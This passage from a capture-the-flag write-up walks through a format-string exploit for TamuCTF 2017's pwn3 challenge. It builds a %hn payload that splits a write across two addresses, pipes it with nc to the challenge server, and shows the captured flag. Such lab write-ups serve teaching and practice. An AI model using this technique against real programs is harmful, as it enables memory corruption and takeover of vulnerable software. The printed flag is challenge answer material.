 > Specifies that a following d, i, o, u, x, or X conversion specifier applies to a short int or unsigned short int argument (the argument will have been promoted according to the integer promotions, but its value shall be converted to short int or unsigned short int before printing); **or that a following n conversion speciﬁer applies to a pointer to a short int argument**.  -- C is For C Programming - Cask J. Thomson

Basically we can use this to convert a 4-bytes datatype into a 2-byte one.
We can use it to save our big value in two times. First we will save one half and then the other half.  
Let's represent this.
    
![Pwn3 Scheme](/assets/TamuCTF2017/pwn3/12-pwn3_scheme.png)    
    
Then, it makes sense that the first value to be written should be the lowest one `0x804-8 = 2044` in the address `0x0804a01e` which will be stored in the `4th` position of the stack.

```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "addr2" + "%2044x" + "%4$hn" + "%____x" + "%_$hn")'
```
The second value to be written is the biggest one `0x85ab - (2044 + 8) = 32167` in the address `0804a01c` which will be stored in the `5th` position of the stack.

```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")'
```

Finally! lets try it!

```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")' | nc pwn.ctf.tamu.edu 4323
                                                                                                                                                                                                                                      0This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}

Segmentation fault

```
